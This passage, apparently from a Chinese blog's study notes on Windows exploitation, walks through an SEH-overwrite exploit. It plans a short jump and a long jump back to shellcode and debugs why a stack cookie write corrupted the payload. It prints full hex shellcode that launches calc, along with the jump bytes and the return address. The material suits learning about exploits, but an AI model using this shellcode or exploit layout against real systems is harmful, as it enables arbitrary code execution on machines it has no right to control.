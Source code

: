 ![Bildschirmfoto 2018-08-30 um 5.56.12 PM.png]({{ site.url }}/images/0day/F4292EFB0B6A5046696D78F2F8DD2B16.png)

是`0x0012FF60`！这正是我们之前覆盖的异常处理函数指针所在位置前4个字节（准确地说，这个位置是SEH异常处理节点指向下一个节点的指针）！这个地方的值是我们可控的！

有了以上信息，再结合之前shellcode必须放在跳板地址前面的限制，我们想到可以在`0x0012FF60`处放置一个向后跳转的指令，跳到shellcode那里。但是注意，这里只有四个字节空间，不够一个长跳转指令，而短跳转指令跳转范围有限。所以我们考虑在这里放一个短跳转，先往后跳一点，然后在那里放一个长跳转，直接跳到shellcode的起始位置。于是，shellcode的结构如下：

![Bildschirmfoto 2018-08-30 um 6.08.52 PM.png]({{ site.url }}/images/0day/543BA48A198855B80978DF79EF5F6779.png)

在构造跳转指令时需要计算指令之间的距离。这时要注意，JMP指令在采用相对地址跳转的时候是以JMP下一条指令的地址为基准进行加减的。

在测试时，我将作者的shellcode放入OD中调试，可以正常弹窗，而我的弹计算器的则失败了。通过追踪，我发现问题出在test函数的汇编指令上：

![Bildschirmfoto 2018-08-30 um 5.22.32 PM.png]({{ site.url }}/images/0day/ACE04DF87B66F80B93DD16FBCAF2BCD9.png)

我们上节提到。函数在进入第一个`__try`时，会将`cookie + 4`的位置置0，并在出`__try`时将其恢复为-2。依据这些，再结合图中的指令，可以推断出来`ebp - 8`处正是cookie。但是我们还可以看到`ebp - 0x20`的位置上也放了一个cookie与`ebp`异或后的值。关键问题在于，在进入`__try`时，这个位置高4字节的地方竟然也被置0（即图中唯一一行灰色代码）！

它导致我的shellcode从

```c
// 206 calc
"\x31\xc9\xb1\xbc\xe8\xff\xff\xff\xff\xc1\x5e\x30\x4c\x0e\x07\xe2"
"\xfa\xfd\xea\x81\x04\x05\x06\x67\x81\xec\x3b\xcb\x68\x86\x5e\x3f"
"\x9b\x43\x1e\x98\x46\x01\x9d\x65\x30\x16\xad\x51\x3a\x2c\xe1\xb3"
"\x1c\x40\x5e\x21\x08\x05\xe7\xe8\x25\x28\xed\xc9\xde\x7f\x79\xa4"
"\x62\x21\xb9\x79\x08\xbe\x7a\x26\x40\xda\x72\x3a\xed\x6c\xb5\x66"
"\x60\x40\x91\xc8\x0d\x5d\xa5\x7d\x01\xc2\x7e\xc0\x4d\x9b\x7f\xb0"
"\xfc\x90\x9d\x5e\x55\x92\x6e\xb7\x2d\xaf\x59\x26\xa4\x66\x23\x7b"
"\x15\x85\x3a\xe8\x3c\x41\x67\xb4\x0e\xe2\x66\x20\xe7\x35\x72\x6e"
"\xa3\xfa\x76\xf8\x75\xa5\xff\x33\x5c\x5d\x21\x20\x1d\x24\x24\x2e"
"\x7f\x61\xdd\xdc\xde\x0e\x94\x6c\x05\xd4\xe0\x8a\x01\x08\x3c\x8f"
"\x90\x91\xc2\xfb\xa5\x1e\xf9\x10\x67\x4c\x21\x6b\x29\x3f\xc8\xf7"
"\x06\x34\x1f\x3e\x5b\x70\x9a\xa1\xd4\xa3\x2a\x50\x4c\xd8\xab\x14"
"\xf7\xa2\xc0\xdc\xde\xb5\xe5\x48\x6d\xda\xdb\xd7\xdf\xbd"
// 2 nop
"\x90\x90"
// long jmp
"\xE9\x2B\xFF\xFF\xFF\x90\x90\x90"
// short jmp
"\xEB\xF6\x90\x90"
// addr of call [ebp + 0x30]
"\x0b\x0b\x29\x00"
```

变成了

```c
// 206 calc
"\x31\xc9\xb1\xbc\xe8\xff\xff\xff\xff\xc1\x5e\x30\x4c\x0e\x07\xe2"
"\xfa\xfd\xea\x81\x04\x05\x06\x67\x81\xec\x3b\xcb\x68\x86\x5e\x3f"
"\x9b\x43\x1e\x98\x46\x01\x9d\x65\x30\x16\xad\x51\x3a\x2c\xe1\xb3"
"\x1c\x40\x5e\x21\x08\x05\xe7\xe8\x25\x28\xed\xc9\xde\x7f\x79\xa4"
"\x62\x21\xb9\x79\x08\xbe\x7a\x26\x40\xda\x72\x3a\xed\x6c\xb5\x66"
"\x60\x40\x91\xc8\x0d\x5d\xa5\x7d\x01\xc2\x7e\xc0\x4d\x9b\x7f\xb0"
"\xfc\x90\x9d\x5e\x55\x92\x6e\xb7\x2d\xaf\x59\x26\xa4\x66\x23\x7b"
"\x15\x85\x3a\xe8\x3c\x41\x67\xb4\x0e\xe2\x66\x20\xe7\x35\x72\x6e"
"\xa3\xfa\x76\xf8\x75\xa5\xff\x33\x5c\x5d\x21\x20\x1d\x24\x24\x2e"
"\x7f\x61\xdd\xdc\xde\x0e\x94\x6c\x05\xd4\xe0\x8a\x01\x08\x3c\x8f"
"\x90\x91\xc2\xfb\xa5\x1e\xf9\x10\x67\x4c\x21\x6b\x29\x3f\xc8\xf7"
"\x06\x34\x1f\x3e\x5b\x70\x9a\xa1\xd4\xa3\x2a\x50\x4c\xd8\xab\x14"
"\xf7\xa2\xc0\xdc\xde\xb5\xe5\x48\x6d\xda\xdb\xd7"
// here !!!
"\x00\x00\x00\x00"
// long jmp
"\xE9\x2B\xFF\xFF\xFF\x90\x90\x90"
```
